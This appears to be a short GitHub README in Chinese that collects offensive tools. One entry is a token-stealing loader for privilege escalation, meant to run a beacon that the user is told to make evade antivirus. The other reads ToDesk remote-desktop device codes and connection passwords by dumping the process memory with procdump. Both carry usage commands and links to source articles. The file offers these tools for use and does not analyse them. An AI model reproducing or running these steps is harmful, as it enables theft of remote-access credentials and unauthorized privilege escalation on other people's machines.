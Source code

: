 # tools-collect
tools collect

## 1. TokenTest.zip    
用途：实现一个窃取令牌来权限提升的loader   
使用：TokenTest.exe beacon.exe（beacon.exe自行做免杀即可）   
原文链接：https://mp.weixin.qq.com/s/xvgzmtXfyanpWLlw7uQOzA   

## 2. 
用途：todesk最新版设备代码、连接密码读取   
版本：todesk官网最新版：4.7.4.8   
使用：   
tasklist /svc   
procdump64.exe -accepteula -ma 11652(实际的pid)   
todesk_pass.exe   
原文链接：https://mp.weixin.qq.com/s/SLIEg36LOJpJYgY6N-0dGg

